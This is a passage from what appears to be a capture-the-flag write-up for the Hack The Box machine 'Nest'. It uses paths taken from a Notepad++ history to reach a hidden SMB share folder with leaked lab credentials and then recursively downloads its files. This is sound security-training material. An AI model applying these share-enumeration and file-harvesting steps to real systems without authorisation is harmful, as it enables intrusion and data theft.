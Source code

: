             <Find name="itx" />
            <Find name="iTe" />
            <Find name="IEND" />
            <Find name="redeem" />
            <Find name="activa" />
            <Find name="activate" />
            <Find name="redeem on" />
            <Find name="192" />
            <Replace name="C_addEvent" />
        </FindHistory>
        <History nbMaxFile="15" inSubMenu="no" customLength="-1">
            <File filename="C:\windows\System32\drivers\etc\hosts" />
            <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
            <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
        </History>
    </NotepadPlus>
    

At first I missed this, but looking at the history at the bottom, there are
paths there.

#### Secure$\IT\Carl

It’s important to think about what I collected already. When I run `mget`, it
goes into each directory I can access, and lists it looking for files. If
there’s a directory I can access inside a directory I can’t access, it won’t
find it.

I can’t access `Secure$\IT`. But it turns out, I can access `Secure$\IT\Carl`,
a path from the Notepad++ config:

    
    
    root@kali# smbclient -U TempUser //10.10.10.178/Secure$ welcome2019
    Try "help" to get a list of possible commands.
    smb: \> cd IT\Carl
    smb: \IT\Carl\> ls
      .                                   D        0  Wed Aug  7 15:42:14 2019
      ..                                  D        0  Wed Aug  7 15:42:14 2019
      Docs                                D        0  Wed Aug  7 15:44:00 2019
      Reports                             D        0  Tue Aug  6 09:45:40 2019
      VB Projects                         D        0  Tue Aug  6 10:41:55 2019
    
                    10485247 blocks of size 4096. 6545797 blocks available
    

I’ll recursively pull from here as well:

    
    
    smb: \IT\Carl\> recurse on
    smb: \IT\Carl\> prompt off
    smb: \IT\Carl\> mget *
    getting file \IT\Carl\Docs\ip.txt of size 56 as ip.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
    getting file \IT\Carl\Docs\mmc.txt of size 73 as mmc.txt (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\ConfigFile.vb of size 772 as ConfigFile.vb (15.7 KiloBytes/sec) (average 5.3 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Module1.vb of size 279 as Module1.vb (5.0 KiloBytes/sec) (average 5.2 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.Designer.vb of size 441 as Application.Designer.vb (8.4 KiloBytes/sec) (average 5.8 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.myapp of size 481 as Application.myapp (9.2 KiloBytes/sec) (average 6.4 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\AssemblyInfo.vb of size 1163 as AssemblyInfo.vb (19.2 KiloBytes/sec) (average 8.4 KiloBytes/sec)
    getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.Designer.vb of size 2776 as Resources.Designer.vb (45.9 KiloBytes/sec) (average 13.4 KiloBytes/sec)